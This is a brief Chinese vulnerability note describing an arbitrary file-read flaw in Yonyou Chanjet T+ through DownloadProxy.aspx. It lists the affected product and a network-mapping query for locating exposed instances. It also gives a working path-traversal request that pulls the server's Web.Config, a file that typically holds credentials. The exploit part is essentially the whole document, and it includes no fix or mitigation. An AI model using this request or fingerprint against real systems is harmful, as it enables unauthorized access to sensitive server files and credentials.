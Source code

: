 # 用友 畅捷通T+ DownloadProxy.aspx 任意文件读取漏洞

# 用友 畅捷通T+ DownloadProxy.aspx 任意文件读取漏洞

## 漏洞描述

用友 畅捷通T+ DownloadProxy.aspx文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感文件

## 漏洞影响

```
用友 畅捷通T+
```

## 网络测绘

```
app="畅捷通-TPlus"
```

## 漏洞复现

登录页面

![image-20220909104559292](/images/202209091045361.png)

验证POC

```
/tplus/SM/DTS/DownloadProxy.aspx?preload=1&Path=../../Web.Config
```

![image-20220909104628456](/images/202209091046535.png)


